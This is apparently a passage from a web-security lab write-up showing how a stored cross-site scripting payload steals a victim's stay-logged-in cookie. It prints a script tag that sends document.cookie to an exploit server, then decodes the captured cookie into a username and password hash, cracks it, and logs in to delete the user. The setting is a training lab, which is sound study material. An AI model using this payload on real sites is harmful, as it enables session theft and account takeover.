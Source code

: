 **Step4:**

Now we add expoilt server id and store in comment

```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

In my case
```
1. <script>document.location='https://exploit-0a6e005404a0eee785b1b2c3017500d7.exploit-server.net/'+document.cookie</script>
```

If we access log we can see

<img src="images/image58.png" alt="third" width="600">

Now we decode it url

stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

Decode it base64

carlos:26323c16d5f4dabff3bb136f2460a943

<img src="images/image59.png" alt="third" width="600">

And we have useername carlos and password onceuponatime

**Step5:**

Log in and delete user carlos

<img src="images/image60.png" alt="third" width="600">
